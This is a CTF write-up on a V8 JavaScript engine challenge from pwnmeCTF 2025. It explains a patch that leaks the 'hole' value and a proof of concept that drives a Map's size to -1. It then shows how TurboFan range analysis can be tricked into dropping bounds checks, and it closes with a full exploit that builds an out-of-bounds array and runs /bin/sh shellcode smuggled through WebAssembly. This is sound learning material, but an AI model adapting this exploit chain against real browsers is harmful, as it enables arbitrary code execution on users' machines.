



### Introduction:

This is the writeup for the pwnmeCTF 2025 challenge called ``holy cow revenge²``. This one is going to be crisp and quick.
<!--more-->

### The lore:


This challenge is not about the cow itself but we are talking about the `hole` in javascript engine called `v8`. This challenge was a revenge of the already existing challenge called [holy cow](https://ruulian.me/post/FCSC2024-holy-cow) ofcourse. 

What happened ? The author forgot to remove the `d8` builtins. So people sovled it within few minutes of the ctf starting. My stupid brain thought everyone had a nday/ zeroday in their hand to solve ctf challenges. :P

This is how ``holy cow revenge²`` was born. 

Also I am still learning browser exploitation and this is my attempt to understand what exactly is going on in this vulnerability. I solved it only after the ctf because my tiny brain could'nt figure out how to mess up the range analysis in time. But enough ranting time to understand some v8.

### The patch:

```c
+BUILTIN(SetPrototypeHole) {
+  HandleScope scope(isolate);
+  return ReadOnlyRoots(isolate).hash_table_hole_value();
+}
+
```
This is as straight forward as it can get. This leaks the value of the `hole` itself. How is this dangerous ? Read [this to get a better understanding](https://starlabs.sg/blog/2022/12-the-hole-new-world-how-a-small-leak-will-sink-a-great-browser-cve-2021-38003/#corrupting-map-size).


```c
+
+  // BUG: I saw some guis doing weird stuff with this ...
+  CSA_CHECK(this, SmiGreaterThanOrEqual(CAST(LoadObjectField(table, OrderedHashMap::NumberOfElementsOffset())), SmiConstant(0)));
+
```
This part of the patch checks if your `number of elements` for the map is greater than `0`, during a element insertion (`MapPrototypeSet`). This is what prevents you from using the previous `holy cow` challenge. Since the old exploit keeps abusing the map. (poor map).

### POC:

```js
let hole = Set.prototype.hole();
let set = new Set();
var map = new Map();

map.set(1, 0x69);
map.set(hole, 0x69);
map.delete(hole);
map.delete(hole);
map.delete(1);
```

If you read the other blog you would have a good idea that the `map.size` now will be equal to `-1`. 

### Exploitation:

I was stuck at this stage for the rest of the CTF, then moved on to solve `compresse` which was a pretty good mix of both heap & stack. But yes, the idea here is that `map.size` will always be greater than equal to `0`. Well this is true for most of the cases expect here. where our map.size is `-1`. 

We can use turbofan to optimize our code. This is mainly done to remove bounds checking on Arrays, which would lead to creation of `OOB` array. Lets see how to do this.

### Removal of Bound Check:
```js
const x = itof(0x1000000000050001n);
let obj_list;

function bob(){
    let a = [0.1, 0.2, 0.3, 0.4];
    let b = new Array(1.1, 2.2);
    let ret = a[-map.size * 0x8];

    a[-map.size * 0x8] = x;
    if (ret === undefined)
        return false
    else {
        return b;
    }
}   

let OOB;
while(true){
    OOB = bob();
    if(OOB !== false){
        break;
    }
}
```

What is happening here ? We are calling the function in a while loop to trigger turbfan optimization for the specific function. In the fuction `bob`. We are creating 2 arrays, one for creating a OOB Array and another to help overwrite the length field of the OOB Array. But what exactly is happening and how does this work?

### Simplified Lowering:


You can clearly see that the compiler has wrong ranges assigned for the `map.size` which is `>= 0`. But in reality we have our `map.size` as `-1`. This could cause problems because in the further optimizations we can see that the bound check has completely vanished.

### Upuntil TFinlining:


### Bytecode Graph Builder:


### Finale:
so we go on to exploit the OOB array that was created using the incorrent `range analysis`. To make things easier the author has disabled heap sandboxing, otherwise you would need a 0day/ nday to solve the challenge. If you have doubts regarding how we use `wasm` to create and [smuggle shellcode read my other blogpost](https://tourpran.github.io/posts/1728447510508-v8---arrayshift-race-condition./#how-to-smuggle-shellcode).

### Final Exploit:
```js
///////////////////////////////////////////////////////////////////////
///////////////////         Utility Functions       ///////////////////
///////////////////////////////////////////////////////////////////////

let hex = (val) => '0x' + val.toString(16);

// 8 byte array buffer
const __buf = new ArrayBuffer(8);
const __f64_buf = new Float64Array(__buf);
const __u32_buf = new Uint32Array(__buf);

// typeof(val) = float
function ftoi(val) {
    __f64_buf[0] = val;
    return BigInt(__u32_buf[0]) + (BigInt(__u32_buf[1]) << 32n); // Watch for little endianness
}

function print(x){
    console.log("[+] " + x);
}

// typeof(val) = BigInt
function itof(val) {
    __u32_buf[0] = Number(val & 0xffffffffn);
    __u32_buf[1] = Number(val >> 32n);
    return __f64_buf[0];
}

function sleep(ms) {
    return new Promise(resolve => setTimeout(resolve, ms));
}

function reverse(x) {
    var buf = new ArrayBuffer(0x20);
    var view1 = new BigInt64Array(buf);
    var view2 = new Uint8Array(buf);
    view1[0] = x;
    view2.reverse();
    return view1[3];
}

function assert(x) {
	console.assert(x);
}

function gc(){
    for(let i=0;i<0x10;i++) new ArrayBuffer(0x100000);
}

////////////////////////////////////////////////////////////////////////
/////////////////////         Main Exploit         /////////////////////
////////////////////////////////////////////////////////////////////////


// for future - shellcode smuggling
var wasm_code = new Uint8Array([0x00,0x61,0x73,0x6d,0x01,0x00,0x00,0x00,0x01,0x05,0x01,0x60,0x00,0x01,0x7c,0x03,0x02,0x01,0x00,0x07,0x08,0x01,0x04,0x6d,0x61,0x69,0x6e,0x00,0x00,0x0a,0x53,0x01,0x51,0x00,0x44,0xbb,0x2f,0x73,0x68,0x00,0x90,0xeb,0x07,0x44,0x48,0xc1,0xe3,0x20,0x90,0x90,0xeb,0x07,0x44,0xba,0x2f,0x62,0x69,0x6e,0x90,0xeb,0x07,0x44,0x48,0x01,0xd3,0x53,0x31,0xc0,0xeb,0x07,0x44,0xb0,0x3b,0x48,0x89,0xe7,0x90,0xeb,0x07,0x44,0x31,0xd2,0x48,0x31,0xf6,0x90,0xeb,0x07,0x44,0x0f,0x05,0x90,0x90,0x90,0x90,0xeb,0x07,0x44,0x0f,0x05,0x90,0x90,0x90,0x90,0xeb,0x07,0x1a,0x1a,0x1a,0x1a,0x1a,0x1a,0x1a,0x0b]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f1 = wasm_instance.exports.main;

// to corrupt the pointer here.
var wasm_code_helper = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod_helper = new WebAssembly.Module(wasm_code_helper);
var wasm_instance_helper = new WebAssembly.Instance(wasm_mod_helper);
var f2 = wasm_instance_helper.exports.main;

// Actual Exploit Starting
function exp(){    
    let hole = Set.prototype.hole();
    let set = new Set();
    var map = new Map();

    map.set(1, 0x69);
    map.set(hole, 0x69);
    map.delete(hole);
    map.delete(hole);
    map.delete(1);

    const x = itof(0x1000000000050001n);
    let obj_list;

    function bob(){
        let a = [0.1, 0.2, 0.3, 0.4];
        let b = new Array(1.1, 2.2);
        let ret = a[-map.size * 0x8];

        a[-map.size * 0x8] = x;
        if (ret === undefined)
            return false
        else {
            return b;
        }
    }   

    let OOB;
    while(true){
        OOB = bob();
        if(OOB !== false){
            break;
        }
    }

    gc();

    if(OOB.length == 2){
        print("OOB Array Creation - Failed.")

    }
    print("Gained OOB Array. Array Length: " + hex(OOB.length));

    // The stack is misaligned here. pain!
    let rwx = ftoi(OOB[0x3645e]) >> 32n;
    rwx += (ftoi(OOB[0x3645f]) % 0x100000000n) << 32n;
    print("RWX Address: " + hex(rwx));
    
    // trigger the first wasm function.
    f1();
    let func_rwx_offset = rwx + 0x81an;
    OOB[0x36478] = itof(func_rwx_offset);

    f2();
}

exp();
```